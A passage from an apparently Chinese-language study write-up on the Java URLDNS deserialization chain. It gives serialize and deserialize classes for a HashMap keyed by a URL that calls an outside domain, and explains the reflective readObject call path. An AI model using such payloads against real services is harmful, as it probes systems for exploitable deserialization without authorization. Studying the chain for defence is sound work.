 下面是这次漏洞利用的代码-->

Serialize 类如下

```java
import java.io.FileOutputStream;
import java.io.ObjectOutputStream;
import java.net.URL;
import java.util.HashMap;

public class Serialize {
    public static void main(String[] args) throws Exception {
        ObjectOutputStream outputStream = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        HashMap<URL,Integer> hashmap= new HashMap<URL,Integer>();
        URL url = new URL("http://test.cxsys.spacestabs.top");
        hashmap.put(url,1);

        outputStream.writeObject(hashmap);
        outputStream.close();
    }
}
```

Unserialize 类如下

```java
import java.io.FileInputStream;
import java.io.ObjectInputStream;

public class Unserialize {
    public static void main(String[] args) throws Exception {
        FileInputStream fileInputStream = new FileInputStream("ser.bin");
        ObjectInputStream inputStream = new ObjectInputStream(fileInputStream);
        Object o = inputStream.readObject();
        inputStream.close();
    }
}
```

3.上面两点就是核心了，这一点来记录点无关紧要的，调的时候好奇了一下下面这个地方-->

![alt text](10.png)

为什么已经通过反射调用了一次 HashMap 的`readObject()`方法，而这个方法里面又调用了两次`readObject()`方法，这个其实就是对参数进行的 readObject，也就是先得反序列化拿到参数，就拿上面的代码中的`K key = (K) s.readObject();`来看(下面那个和这个同理)，这个 key 值是一个 URL 类，一开始在看 sink 的时候就提到 URL 类也是重写了 readObject 的，那么这个`readObject()`方法执行完之后必然会到 URL 类的 readObject 方法，而不是原生的 readObject，跟一下看看，果然到了 URL 类里面，如下图-->

![alt text](11.png)

下面是此时的调用栈，由于两次的 readObject 都是 private，所以都是通过反射去调用的，有一种一层套一层的感觉。

![alt text](12.png)

基本上记录的很清晰了，但还是有点小问题需要去解决
